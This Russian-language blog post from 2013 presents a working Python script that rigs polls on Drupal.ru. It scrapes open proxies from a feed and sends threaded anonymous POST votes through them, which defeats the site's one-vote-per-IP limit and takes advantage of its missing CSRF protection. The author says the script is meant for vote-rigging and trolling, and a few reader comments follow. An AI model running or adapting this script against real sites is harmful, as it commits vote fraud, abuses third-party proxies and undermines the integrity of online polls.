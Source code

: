 ```yaml
---
layout: post
title:  "Накручивание голосований на Друпал.ру"
date:   "2013-03-04 05:46:40"
permalink: /2013/03/04/1/
tags: python drupal programming
---
```


Простой скрипт на Питоне, накручивающий голосовалки на Друпал.ру:

~~~ python
import threading
import urllib
import re
import sys
import time
import random

try:
    _, nid, variant = sys.argv[:3]
except:
    print "Usage: python poll.py nid variant"
    exit(1)


PROXY_PATTERN = r"\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d{2,5}"
POLL_URL = "http://www.drupal.ru/inner_poll/vote_js"

PROXY_URLS = (
    "http://feeds.feedburner.com/best-proxy/oKhv",
)

proxies = []
for url in PROXY_URLS:
    try:
        proxies.extend(re.findall(PROXY_PATTERN, urllib.urlopen(url).read()))
    except:
        continue

params = {
    "n": nid,    # node id
    "v": variant # variant id ("0,1,n" if multiple)
}
data = urllib.urlencode(params)

threads = []

print len(proxies), "proxies =)"
time.sleep(3)

def job(p):
    time.sleep(random.randint(0, 60))
    urllib.urlopen(POLL_URL, data=data, proxies={'http': 'http://' + p})

for p in proxies:
    t = threading.Thread(target=job, args=(p, ))
    try:
        t.start()
    except:
        pass
~~~

Запускать так:

~~~ python
python poll.py nid variant
~~~

, где nid — номер ноды, variant — номер варианта ответа (нумерация с
нуля) либо варианты через запятую.

Комментарии к коду.

1. На Друпал.ру голосование разрешено всем, даже анонимам.
2. Единственное ограничение на голосование — IP должен быть уникальным
   в пределах номера ноды.
3. Запрос осуществляется методом POST с передачей двух переменных:
   номера ноды и варианта. Про CSRF-токены не, не слышали.
4. Каждый запрос делаем через свой прокси. Список прокси берем из
   RSS-ленты сайта http://best-proxy.ru/ Лента, как вы заметили,
   пропущена через Фидбернер, т.к. создатели сайта огораживаются от
   граббинга.
5. Каждый запрос выделяем в свой тред.
6. КПД проксей где-то 10%, что тоже неплохо.

Область применения скрипта — накрутка и троллинг.


#### Комментарии из старого блога


**03/10/13 RxB:** Ну зачем... Теперь все будут знать


**03/10/13 Иван Гришаев:** Да и хрен с ним. Во-первых, на Д.ру одни
пхп-шники, во-вторых, best-proxy.ru больше не обновляется, прокси из
РСС-ленты не работают.


**03/25/13 Александр Мальков:** Но, все равно - спасибо. Интересный
  подход.
